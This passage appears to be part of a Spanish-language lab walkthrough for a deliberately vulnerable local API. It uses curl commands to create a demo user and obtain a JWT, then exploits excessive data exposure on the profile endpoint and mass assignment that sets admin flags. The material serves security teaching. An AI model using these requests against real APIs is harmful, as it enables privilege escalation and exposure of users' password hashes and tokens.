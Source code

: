 ### Paso 3: Crear Usuario de Prueba y Obtener Token
```bash
# Crear usuario de prueba
curl -X POST http://localhost:3000/api/usuarios \
  -H "Content-Type: application/json" \
  -d '{
    "nombreUsuario": "Demo BOPLA User",
    "correo": "bopla@demo.com",
    "contraseña": "Password123!"
  }'

# Confirmar cuenta (usar el tokenVerificacion de la respuesta anterior)
curl -X GET "http://localhost:3000/api/usuarios/confirmar/[TOKEN_FROM_REGISTRATION]"

# Hacer login para obtener JWT
TOKEN=$(curl -X POST http://localhost:3000/api/usuarios/login \
  -H "Content-Type: application/json" \
  -d '{"correo": "bopla@demo.com", "contraseña": "Password123!"}' \
  | grep -o '"token":"[^"]*"' | cut -d'"' -f4)

echo "Token obtenido: $TOKEN"
```

### Paso 4: 🚨 **VULNERABILIDAD 1 - Excessive Data Exposure en Perfil**

#### Ver perfil con información sensible expuesta:
```bash
curl -X GET http://localhost:3000/api/usuarios/perfil \
  -H "Authorization: Bearer $TOKEN" \
  | jq '.'
```

**⚠️ Resultado Esperado:** 
- Contraseña hasheada expuesta
- Token de verificación visible  
- Metadatos internos del sistema
- Información de debugging
- Configuración del servidor

### Paso 5: 🚨 **VULNERABILIDAD 2 - Mass Assignment en Usuario**

#### Modificar campos sensibles del usuario:
```bash
curl -X PUT http://localhost:3000/api/usuarios/actualizar-perfil \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{
    "nombreUsuario": "Hacker Admin",
    "verificado": true,
    "role_level": "admin",
    "is_admin": true
  }'
```
